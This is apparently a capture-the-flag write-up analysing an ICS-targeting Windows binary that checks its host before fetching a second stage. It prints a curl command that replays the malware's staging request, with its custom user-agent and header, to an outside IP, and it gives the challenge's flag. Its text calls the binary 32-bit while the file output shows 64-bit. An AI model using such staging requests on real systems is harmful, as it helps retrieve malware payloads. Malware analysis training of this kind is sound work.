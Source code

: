 # Shai-Hulud | Hard (600 points)

Hi Analyst,

During a routine security audit, we were notified of an unusual file on one of our ICS workstations which was thought to be airgapped. We believe the binary is gathering information in preparation to move to a second stage.

Unfortunately, we have not been able to progress further. Can you investigate how the file is communicating and see if you can retrieve the second stage?

Good Luck

password: `infected`

-----

Within the 7-zip, we are given the binary - `cimplserver.sample` - a 32-bit Windows PE:

```
$ file cimplserver.sample
cimplserver.sample: PE32+ executable (console) x86-64, for MS Windows
```

Carrying out some basic static analysis, we see from `strings` output there is an IP address, file paths for Proficy CIMPLICITY software, possible second-stage information, and potential HTTP request functionality:

```
13.60.135.243
C:\Program Files (x86)\Proficy\Proficy CIMPLICITY
C:\Program Files\Proficy\Proficy CIMPLICITY
HMI-CTRL
Stage2: GreenWillow.iso
Arrakis/0.2
...
WinHttpConnect
WinHttpSendRequest
WinHttpCloseHandle
WinHttpOpenRequest
WinHttpQueryHeaders
WinHttpAddRequestHeaders
WinHttpOpen
WinHttpReceiveResponse
WINHTTP.dll
```

Opening this in Ghidra/IDA, we can see the functionality clearer.

Initially, the binary checks the hostname for the system matches `HMI-CTRL` - likely an engineering workstation for a Human Machine Interface:

![](/images/shaihulud_hostname_check.png)

If this passes, the binary then checks the existence of Proficy software by checking two file paths (1) before attempting to retrieve the second stage (2), passing in the IP address and port:

![](/images/shaihulud_file_check.png)

Navigating to the website shows Dune ASCII art with a random quote from the books:

![](/images/shaihulud_website.png)

The second stage is retrieved using a custom user-agent string (1) via a HTTP GET request (2) to the IP. Custom headers are also added (3) before sending the request (4):

![](/images/shaihulud_stage2.png)

Replicating the same request with the user-agent and header to the IP, we get a valid response:

```
curl -L -A "Arrakis/0.2" -H "Stage2: GreenWillow.iso" http://13.60.135.243
```

![](/images/shaihulud_testing_curl.png)

Adding the `v` flag for verbosity shows the flag in the response:

```
curl -vL -A "Arrakis/0.2" -H "Stage2: GreenWillow.iso" http://13.60.135.243
```

![](/images/shaihulud_flag.png)

```
flag{gru_74455_b4ck_4t_1t_aga1n_37a6d}
```
